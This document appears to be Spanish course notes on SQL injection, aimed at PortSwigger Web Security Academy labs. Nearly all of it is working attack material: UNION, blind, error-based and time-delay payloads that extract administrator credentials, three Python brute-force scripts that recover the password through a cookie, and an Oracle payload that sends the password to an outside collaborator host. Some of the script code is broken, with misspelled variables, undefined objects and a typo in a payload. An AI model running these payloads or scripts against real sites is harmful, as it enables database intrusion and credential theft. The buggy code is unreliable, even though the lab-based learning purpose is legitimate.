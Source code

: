 # Curso web s4vitar

## SQL

```
select id, username from users where id = '1' 
union select "test", group_concat(schema_name) from information_schema.schemata; -- '
```

### ¿Qué hace?

* Realiza **SQL Injection** usando `UNION` para combinar el resultado original con datos del sistema.
* La parte inyectada usa `group_concat(schema_name)` para obtener **todos los nombres de bases de datos** en una sola fila, separados por comas.

```
| id   | username                                              |
|------|-------------------------------------------------------|
| 1    | administrator                                         |
| test | information_schema,mysql,performance_schema,sys,login |
```

### ¿Por qué usar `group_concat` en vez de `LIMIT 0,1`?

* `LIMIT 0,1` solo devuelve una base de datos (una fila).
* `group_concat` concatena todas en un único resultado.
* Permite extraer toda la lista de bases de datos en **un solo paso**, de forma más eficiente.

### Ataque UNION

```
'
' order by 2-- - #para mirar cuántas columnas
' union select NULL, schema_name from information_schema.schemata-- -
' union select NULL, table_name from information_schema.tables where table_schema='public'
' union select NULL, column_name from information_schema.columns where table_schema='public' and table_name='users'-- -
' union select NULL, username||':'||password from users-- -
```

### Blind SQL

```
' 1=1-- -
' (select 'a')='a'-- - #meter subquery
' and (select 'a' from users where username='administrator')='a'-- -
' and (select substring(password,1,1) from users where username='administrator')='a'-- -
'and (select substring(password,1,1) from users where username='administrator' and lenght(password)=20)='a'-- -
```

SCRIPT 1

```
import sys
import signal
import string
import time
import requests
from termcolor import colored

def def_handler(sig, frame):
    print(colored("\n\n[!] Saliendo...\n", 'red'))
    p1.failure("Ataque de fuerza bruta detenido")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits
password = ''

p2=log.progress("Password")
def makeSQLi():
    print(colored("[*] Iniciando ataque de fuerza bruta", 'yellow'))
    time.sleep(2)

    for position in range(1, 21):
        for character in characters:
            payload = f"f0tYdW3TiOpJdmnVo' and (select substring(password,{position},1) from users where username='administrator')='{character}'-- -"
            cookies = {
                'TrackingId': payload,
                'session': 'xkwHU4bggBmEx0ijIEHAyx0fgb60eemG'
            }

            print(colored(f"[*] Probando: posición {position}, caracter '{character}'", 'blue'))

            r = requests.get("https://0afd00540433ac10815c1df5003a00c5.web-security-academy.net", cookies=cookies)

            if "Welcome back" in r.text:
                password+=character
                p2.status(passsword)
                break

if __name__ == '__main__':
    makeSQLi()
```

BIND EN ORACLE

```
'||(select case when length(password)=20 then to_char(1/0) else '' end from users where username='administrator')||'
'||(select case when substr(password,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'
```

SCRIPT 2

```
#!/usr/bin/env python3

from pwn import *
from termcolor import colored
import requests
import signal
import sys
import string
import time

def def_handler(sig, frame):
    print(colored("\n[!] Saliendo...", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits
p1 = log.progress("SQLi")

def makeSQLi():
    p1.status("Iniciando ataque de fuerza bruta")
    time.sleep(2)

    password = ""
    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                "TrackingId": f"opTM4Ic5M3tdYiBB'||(select case when substr(password,{position},1)='{character}' then to_char(1/0) else '' end from users where username='administrator')||'",
                "session": "eeBjOF3YK4uowytMt8WtFXH7U4GcOVo"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0a5c000504a13a58809508d700a200a2.web-security-academy.net", cookies=cookies)

            if r.status_code == 500:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLi()
```

VISIBLE ERROR BASED SQL

```
' or 1=cast((select username from users limit 1) as INT)-- -
' or 1=cast((select password from users limit 1) as INT)-- -
```

BLIND SQL TIME DELAYS

```
'||pg_sleep(10)-- - #postgresql
and select sleep(10)-- #mysql
```

TIME DELAY TO GET IMPORTANT INFORMATION

```
'%3b select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(5) else pg_sleep(10) end-- - 
```

```
#!/usr/bin/env python3

from pwn import *
from termcolor import colored

import requests
import signal
import sys
import string
import time

def def_handler(sig, frame):
    p1.failure("")
    print(colored("\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits
p1 = log.progress("SQLi")

def makeSQLI():
    password = ""

    p1.status("Iniciando ataque de fuerza bruta")
    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                'TrackingId': f"test'%3b select case when(username='administrator' and substring(password,{position},1)='{character}') then pg_sleep(2) else pg_sleep(0) end from users-- -",
                'session': 'Likdyr1YeNj01gP3QJCEYLboh2e6q4GM'
            }

            p1.status(cookies["TrackingId"])

            time_start = time.time()

            r = requests.get("https://0aa100ed04832e02817c438800da0056.web-security-academy.net", cookies=cookies)

            time_end = time.time()

            if time_end - time_start > 2:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLI()
```

OUT-OF-BAND INTERACTION

<figure><img src="../.gitbook/assets/image (1472).png" alt=""><figcaption></figcaption></figure>

> Hay que urlcodearlo ciertos caracteres

EXTRAER INFO

```
' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select password from users where username='administrator')||'.em465lc8ntonsu7rwg3gtectkkqce52u.oastify.com/">]>'),'/1') FROM dual-- ;
```

{% hint style="warning" %}
Extensión HackVector
{% endhint %}

```
1 union select password from users where username='administrator'
```

```
1 union select username||';'||password from users
```
